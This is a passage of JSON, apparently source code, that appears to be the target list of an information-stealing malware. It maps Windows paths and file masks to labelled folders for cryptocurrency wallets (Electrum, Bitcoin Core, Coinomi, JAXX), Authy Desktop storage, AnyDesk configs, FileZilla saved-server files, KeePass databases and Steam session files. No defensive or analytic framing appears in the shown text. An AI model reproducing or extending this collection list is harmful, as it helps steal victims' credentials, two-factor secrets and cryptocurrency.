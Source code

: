                 "z": "Wallets/Coinomi",
                "d": 2
            },
            {
                "t": 0,
                "p": "%appdata%\\Authy Desktop\\Local Storage\\leveldb",
                "m": "*",
                "z": "Wallets/Authy Desktop",
                "d": 2
            },
            {
                "t": 0,
                "p": "%appdata%\\Bitcoin\\wallets",
                "m": "*",
                "z": "Wallets/Bitcoin core",
                "d": 2
            },
            {
                "t": 0,
                "p": "%appdata%\\com.liberty.jaxx\\IndexedDB",
                "m": "*.leveldb",
                "z": "Wallets/JAXX New Version",
                "d": 2
            },
            {
                "t": 0,
                "p": "%appdata%\\Electrum\\wallets",
                "m": "*",
                "z": "Wallets/Electrum",
                "d": 2
            },
            {
                "t": 0,
                "p": "%appdata%\\AnyDesk",
                "m": "*.conf",
                "z": "Applications/AnyDesk",
                "d": 2
            },
            {
                "t": 0,
                "p": "%appdata%\\FileZilla",
                "m": "recentservers.xml",
                "z": "Applications/FileZilla",
                "d": 2
            },
            {
                "t": 0,
                "p": "%appdata%\\FileZilla",
                "m": "sitemanager.xml",
                "z": "Applications/FileZilla",
                "d": 2
            },
            {
                "t": 0,
                "p": "%userprofile%",
                "m": "*.kbdx",
                "z": "Applications/KeePass",
                "d": 2
            },
            {
                "t": 0,
                "p": "%programfiles%\\Steam",
                "m": "ssfn*",
                "z": "Applications/Steam",
